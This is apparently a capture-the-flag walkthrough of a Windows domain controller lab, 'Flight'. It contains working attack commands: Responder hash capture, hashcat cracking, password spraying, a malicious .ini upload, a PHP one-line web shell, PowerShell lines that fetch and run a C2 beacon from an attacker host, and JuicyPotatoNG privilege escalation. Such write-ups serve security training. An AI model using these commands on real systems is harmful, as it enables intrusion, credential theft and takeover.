Writeup
Overview¶

Flight was Domain Controller which have multiple pivoting points between Domain Users/services. The box have interesting and different techniques for exploiting and pivoting between Domain Users/services. Including: Local File Include, using Responder to capture hashes, password spray, enumerating shares, uploading PHP and ASPX web shells, abusing seImpersonate for privileges escalation.
Machine Info¶
| Operating System | Difficulty | IP |
|---|---|---|
| Windows | Hard | 10.10.11.187 |
Attack Scenario Road Map¶

Walkthrough¶
Recon¶
nmap
nmap 10.10.11.187 -sCV
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack Simple DNS Plus
80/tcp open http syn-ack Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods:
| Supported Methods: GET POST OPTIONS HEAD TRACE
|_ Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2023-02-02 10:54:03Z)
135/tcp open msrpc syn-ack Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack
464/tcp open kpasswd5? syn-ack
593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped syn-ack
3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped syn-ack
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
| smb2-time:
| date: 2023-02-02T10:54:28
|_ start_date: N/A
|_clock-skew: 6h59m57s
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 32072/tcp): CLEAN (Timeout)
| Check 2 (port 50018/tcp): CLEAN (Timeout)
| Check 3 (port 20979/udp): CLEAN (Timeout)
| Check 4 (port 44855/udp): CLEAN (Timeout)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
By looking into nmap scan results, the ports 53, 389, and 636 are open which mean the server is Domain Controller. Furthermore, the main domain is flight.htb and the hostname is g0
Web Enumeration¶
The main website is static website and does not have any functions to play with.
Subdomain Enumeration¶
gobuster dns -d flight.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
Found: school.flight.htb
Enumerating the subdomains reveal for us a new subdomain: school.flight.htb
Web Enumeration - school.flight.htb¶
Going through the website we will identify a Local File Inclusion vulnerability in the path: http://school.flight.htb/index.php?view=<> however, the website blocks any requests that contains LFI payloads.

Capturing NTLM Hash - apache_svc¶
Rather than trying to read local files, let’s try to put our own network address path and running Responder in the background.
http://school.flight.htb/index.php?view=//10.10.14.45/abc
By entering our own network address path we will capture the running web service account NTLM hash:
Responder -I tun0
[SMB] NTLMv2-SSP Client : ::ffff:10.10.11.187
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash : svc_apache::flight:fde05e6599f40c3f:3C5E654F285AF71566CC72FE0A602BAF:01010000000000000047620C9336D9017A184F20FF4A206000000000020008004F00490034004A0001001E00570049004E002D0050005A0052004C004600500046004100460030004D0004003400570049004E002D0050005A0052004C004600500046004100460030004D002E004F00490034004A002E004C004F00430041004C00030014004F00490034004A002E004C004F00430041004C00050014004F00490034004A002E004C004F00430041004C00070008000047620C9336D9010600040002000000080030003000000000000000000000000030000000ABC5E34D8F89640F6097DC60F245215636C59B0570F89E9DB8CF72FD80A8950A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00340035000000000000000000
Cracking NTLM Hash¶
Here we can use Hashcat to attempt to crack the obtained NTLM hash.
hashcat -m 5600 svc_apache rockyou.txt
...
SVC_APACHE::flight:fde05e6
...
...
00000:S@Ss!K@*t13
We cracked svc_apache hash which is: S@Ss!K@*t13 to validate it we can use crackmapexec:
crackmapexec smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13'
SMB school.flight.htb 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB school.flight.htb 445 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
Password Spray¶
While having svc_apache service account password, we can perform password spray against the Domain Users. To collect all Domain Users we can CrackMapExec with the flag --users
crackmapexec smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' --users
SMB school.flight.htb 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB school.flight.htb 445 G0 [+] flight.htb\svc_apache:S@Ss!K@*t13
SMB school.flight.htb 445 G0 [+] Enumerated domain user(s)
SMB school.flight.htb 445 G0 flight.htb\O.Possum badpwdcount: 0 desc: H
SMB school.flight.htb 445 G0 flight.htb\svc_apache badpwdcount: 0 desc: S
SMB school.flight.htb 445 G0 flight.htb\V.Stevens badpwdcount: 0 desc: S
SMB school.flight.htb 445 G0 flight.htb\D.Truff badpwdcount: 0 desc: P
SMB school.flight.htb 445 G0 flight.htb\I.Francis badpwdcount: 0 desc: N
SMB school.flight.htb 445 G0 flight.htb\W.Walker badpwdcount: 0 desc: P
SMB school.flight.htb 445 G0 flight.htb\C.Bum badpwdcount: 0 desc: S
SMB school.flight.htb 445 G0 flight.htb\M.Gold badpwdcount: 0 desc: S
SMB school.flight.htb 445 G0 flight.htb\L.Kein badpwdcount: 0 desc: P
SMB school.flight.htb 445 G0 flight.htb\G.Lors badpwdcount: 0 desc: S
SMB school.flight.htb 445 G0 flight.htb\R.Cold badpwdcount: 0 desc: H
SMB school.flight.htb 445 G0 flight.htb\S.Moon badpwdcount: 1 desc: J
SMB school.flight.htb 445 G0 flight.htb\krbtgt badpwdcount: 0 desc: K
SMB school.flight.htb 445 G0 flight.htb\Guest badpwdcount: 0 desc: B
SMB school.flight.htb 445 G0 flight.htb\Administrator badpwdcount: 1 desc: B
Then, we can perform password spray:
crackmapexec smb flight.htb -u /tmp/users -p 'S@Ss!K@*t13' --continue-on-success
SMB school.flight.htb 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB school.flight.htb 445 G0 [-] flight.htb\D.TRUFF:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\I.FRANCIS:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\O.POSSUM:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\V.STEVENS:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [+] flight.htb\SVC_APACHE:S@Ss!K@*t13
SMB school.flight.htb 445 G0 [-] flight.htb\G.LORS:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\ADMINISTRATOR:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\W.WALKER:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\R.COLD:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\KRBTGT:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\C.BUM:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\M.GOLD:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [-] flight.htb\L.KEIN:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB school.flight.htb 445 G0 [+] flight.htb\S.MOON:S@Ss!K@*t13
We found that s.moon is using the same password of svc_apache
Enumerating Shared Folders¶
The Domain User s.moon have read and write privileges in the folder shared
crackmapexec smb flight.htb -u s.moon -p 'S@Ss!K@*t13' --shares
SMB school.flight.htb 445 G0 [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB school.flight.htb 445 G0 [+] flight.htb\s.moon:S@Ss!K@*t13
SMB school.flight.htb 445 G0 [+] Enumerated shares
SMB school.flight.htb 445 G0 Share Permissions Remark
SMB school.flight.htb 445 G0 ----- ----------- ------
SMB school.flight.htb 445 G0 ADMIN$ Remote Admin
SMB school.flight.htb 445 G0 C$ Default share
SMB school.flight.htb 445 G0 IPC$ READ Remote IPC
SMB school.flight.htb 445 G0 NETLOGON READ Logon server share
SMB school.flight.htb 445 G0 Shared READ,WRITE
SMB school.flight.htb 445 G0 SYSVOL READ Logon server share
SMB school.flight.htb 445 G0 Users READ
SMB school.flight.htb 445 G0 Web READ
Capturing NTLM Hash - c.bum¶
While we have write privileges, we can attempt to upload shortcut file or .ini file. First create the file:
echo 'IconFile=\\10.10.14.45\abc' > abc.ini
Then, upload it to Shared folder:
smbclient \\\\10.10.11.187\\shared -U 'flight\s.moon' --password 'S@Ss!K@*t13'
smb: \> put abc.ini
putting file abc.ini as \abc.ini (0.0 kb/s) (average 0.0 kb/s)
In the background run Responder to capture c.bum NTLM hash
[SMB] NTLMv2-SSP Hash : c.bum::flight.htb:891a9343d1f245a0:4FDE2293E13532DE46B63A24711666DA:01010000000000008080BD149936D9011BF08AB333495F28000000000200080042004C005000590001001E00570049004E002D003100440050005A004D0034005100490042004100350004003400570049004E002D003100440050005A004D003400510049004200410035002E0042004C00500059002E004C004F00430041004C000300140042004C00500059002E004C004F00430041004C000500140042004C00500059002E004C004F00430041004C00070008008080BD149936D9010600040002000000080030003000000000000000000000000030000000ABC5E34D8F89640F6097DC60F245215636C59B0570F89E9DB8CF72FD80A8950A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00340035000000000000000000
Cracking NTLM Hash - c.bum¶
Again using hashcat we can attempt to crack it with rockyou.txt wordlist.
hahcat -m 5600 hash rockyou.txt
C.BUM::flight.htb:8...
..0:Tikkycoll_431012284
We obtained c.bum credentials: c.bum:Tikkycoll_431012284
Enumerating Shares - c.bum¶
Enumerating the shares of the user c.bum will reveal for us that the user have write permissions in the folder web the web directory is for school.flight.htb
Initial Access¶
By known that we can write into the web directory, we can upload PHP web shell to obtain command execution.
First, we will create a simple PHP web shell that will allow us to execute system commands in the target using the following command:
echo '<?=`$_GET[0]`?>' > image.php
Then, we will upload the web shell in the images directory using smbclient
smbclient \\\\10.10.11.187\\web -U 'flight\c.bum' --password 'Tikkycoll_431012284'
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Thu Feb 2 08:33:31 2023
.. D 0 Thu Feb 2 08:33:31 2023
flight.htb D 0 Thu Feb 2 08:32:01 2023
school.flight.htb D 0 Thu Feb 2 08:32:01 2023
5056511 blocks of size 4096. 1254140 blocks available
smb: \> cd school.flight.htb
smb: \school.flight.htb\> cd images
smb: \school.flight.htb\images\> put image.php
putting file image.php as \school.flight.htb\images\image.php (0.6 kb/s) (average 0.6 kb/s)
After uploading the web shell, we can now navigate to http://school.flight.htb/images/image and execute commands by passing system commands in the parameter 0 .

Maintain Access - c.bum¶
To obtain access in the target, we can upload C2 beacon. Here I used Havoc C2. In order to do it, first we upload our beacon in the target either hosting HTTP server or using SMB. I used here the first method:
python3 -m http.server 9090
image.php?0=powershell -nop iwr http://10.10.14.<>:9090/demon.exe -o \programdata\demon.exe
Then, in the target, run the beacon to recieve callback in our C2 server
image.php?0=\programdata\demon.exe

To run commands as c.bum we can use runas_cs tool: https://github.com/antonioCoco/RunasCs
We will use Havoc to upload runas_cs to the target
powershell iwr http://10.10.14.45:9090/runas_cs.exe -o \programdata\cs.exe
Then run:
shell c:\programdata\cs.exe c.bum Tikkycoll_431012284 c:\programdata\demon.exe

Enumerating the Target¶
Viewing the running services will reveal for us that there is a local web application running in port 8000

Here we will upload chisel to access the local web application
powershell iwr http://10.10.14.45:9090/chisel.exe -o \programdata\ch.exe
In local machine run:
./chisel server -p 8443 --reverse

In the target run:
shell c:\programdata\ch.exe client <ip>:8443 R:socks

Then, we can access the web application using socks5 proxy and proxychains
By enumerating files will notice a writable folder by c.bum which is located at: c:\inetpub\development

Uploading ASPX Web Shell¶
Let's try to upload a web shell in website:
From Havoc C2, while running as c.bum, run:
upload /tmp/image.aspx c:\inetpub\development\image.aspx
Then, navigate to http://127.0.0.1:8000 and execute Havoc C2 Beacon.

Then, we obtained access as DefaultAppPool service account which have SeImpersonate privileges.

Privilege Escalation¶
Because the service account DefaultAppPool have SeImpersonate privileges we can impersonate any user including the Local Admin. We can abuse this using JuicyPotatoNG
To escalate privileges into system, first upload JuicyPotato in the target:
powershell iwr http://10.10.14.45:9090/jp.exe -o \programdata\jp.exe
Then run:
shell \programdata\jp.exe -t * -p "cmd.exe" -a "/c c:\programdata\demon.exe"
Then, we will be able to obtain access as system with full privileges.

Scenario Diagram¶
graph LR
A[Attack Scenario] --> B(Web Recon);
B --> C{{flight.htb}} & D{{school.flight.htb}};
D --> E[/Local File Inclusion/] & F[/Capture svc_apache Hash using Responder/] & G[/svc_apache/]
A --> H(Password Spray);
H --> I[/m.moon/];
A --> J(Enumerate Shares);
J --> K{{Found Writable Share Shared Shared}} & L{{Upload ini File}} & N{{Found Writable Share Web}};
L --> M[/c.bum/];
A --> ini(Initial Access);
ini --> upl{{Upload PHP Webshell}};
upl --> rce[/Obtain RCE as svc_apache/] & piv[/Pivot to c.bum/];
A --> priv(Privilege Esclation);
priv --> p1{{Found Service Running in Port 800}} & p2{{Used Chisel to Access it}} & p3{{Upload ASPX Webshell}};
p3 --> p4[/DefaultAppPool/] & p5{{Escalate Priviles by abusing SeImpersonate Privileges}};
p5 --> p6[/SYSTEM/];
style G fill:#dd1d1c;
style I fill:#dd1d1c;
style M fill:#dd1d1c;
style p4 fill:#dd1d1c;
style p6 fill:#dd1d1c;